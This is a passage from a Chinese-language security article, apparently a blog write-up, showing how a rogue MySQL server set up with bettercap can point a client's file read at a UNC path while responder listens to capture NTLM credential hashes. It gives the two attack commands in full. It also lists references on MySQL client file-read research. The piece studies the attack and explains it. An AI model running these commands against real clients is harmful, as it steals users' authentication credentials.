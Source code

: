 通过查阅文档，我们可以看到相关参数的设置如下：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

我们这里将我们的`mysql.server.infile`设置成`UNC`路径。

```
set mysql.server.infile \\192.168.165.128\test; mysql.server on
```

并且通过`responder`进行监听。

```
responder --interface eth0 -i 192.168.231.153
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

当攻击者使用客户端连接我们的`恶意服务器`时，

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

我们就成功的截获了`NTLM`的相关信息。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**参考连接**

1.  [https://mp.weixin.qq.com/s/m4I_YDn98K_A2yGAhv67Gg](https://mp.weixin.qq.com/s?__biz=MzU2NTc2MjAyNg==&mid=2247484614&idx=1&sn=a719aaad15112d4ec26ab3f3c89cadc5&scene=21#wechat_redirect)
    
2.  https://www.bettercap.org/modules/ethernet/servers/mysql.server/
    
3.  https://www.colabug.com/2019/0408/5936906/
    
4.  https://github.com/bettercap/bettercap
    
5.  http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/
    
6.  https://lightless.me/archives/read-mysql-client-file.html
    

  

[![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)](http://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247488442&idx=2&sn=56bbdbf3f35b3781aabd65c0d4b2f75b&chksm=9b39350bac4ebc1d010cd744eec558c5562883dafe376e13c8c0b8b4f2fbbba0d81639d107d6&scene=21#wechat_redirect)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)